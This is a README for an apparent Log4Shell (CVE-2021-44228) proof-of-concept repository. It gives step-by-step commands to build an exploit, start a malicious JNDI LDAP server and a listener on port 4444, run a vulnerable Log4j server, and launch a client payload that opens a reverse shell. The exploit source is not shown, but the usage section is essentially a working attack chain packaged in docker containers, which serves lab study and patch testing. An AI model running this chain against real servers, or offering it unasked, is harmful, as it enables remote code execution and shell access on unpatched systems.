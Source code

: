 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

## Requirements

Java 8 required.

## Usage

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

Build project.

```
./build.sh
# Runs the following commands:
#   cd containers/exploit/
#   javac Exploit.java
#   javac client.java
#   docker-compose build
```

Run vulnerable jndi LDAP server.

```
cd containers/ldap/
./run.sh
# Runs the following command
#   docker run --rm -it --name log4shell_ldap -p 1389:1389 log4shell_ldap
```

Create listener on port 4444.

```
cd containers/
./run.sh
# Runs the following command
#   docker run --rm -it --name log4shell_listener -p 4444:4444 log4shell_listener
```

Run vulnerable server.

```
cd containers/CVE/
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar server
```

Run payload to execute reverse shell connection to our listener.

```
cd containers/exploit/
java client
```

You will now be able to execute shell commands from your listener.

## Credits

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/mbechler/marshalsec